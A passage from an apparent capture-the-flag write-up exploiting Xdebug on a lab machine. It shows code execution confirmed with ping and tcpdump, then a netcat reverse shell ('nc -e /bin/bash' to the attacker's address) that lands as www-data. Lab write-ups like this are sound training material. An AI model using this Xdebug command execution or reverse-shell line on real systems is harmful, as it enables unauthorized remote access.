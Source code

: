 And we see result in tcpdump:

```

root@kali# tcpdump -i 2 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
14:42:22.296409 IP 10.10.10.83 > kali: ICMP echo request, id 5413, seq 0, length 64
14:42:22.296431 IP kali > 10.10.10.83: ICMP echo reply, id 5413, seq 0, length 64

```

Decoding the data that came back in the `CDATA` block, we’ll see it’s part of the ping output:

```

root@kali# echo cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA5NC4zNjEvOTUuMDcyLzk1Ljg2MS8wLjU2MiBtcw== | base64 -d
round-trip min/avg/max/stddev = 94.361/95.072/95.861/0.562 ms

```

Even better, if we look at the curl command, which has not returned yet, we get the output:

```

root@kali# curl http://10.10.10.83 -H "Cookie: XDEBUG_SESSION=wpOCvcWXx5"
PING 10.10.14.5 (10.10.14.5): 56 data bytes
64 bytes from 10.10.14.5: icmp_seq=0 ttl=62 time=18.276 ms
--- 10.10.14.5 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max/stddev = 18.276/18.276/18.276/0.000 ms

```

### Shell

From the python script above, we’ll give `nc -e` a try and get lucky (since most hosts don’t have the `-e` option):

```

>> system("nc -e /bin/bash 10.10.14.5 8087")

```

```

root@kali# nc -lnvp 8087
listening on [any] 8087 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.83] 57586
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Script to get shell
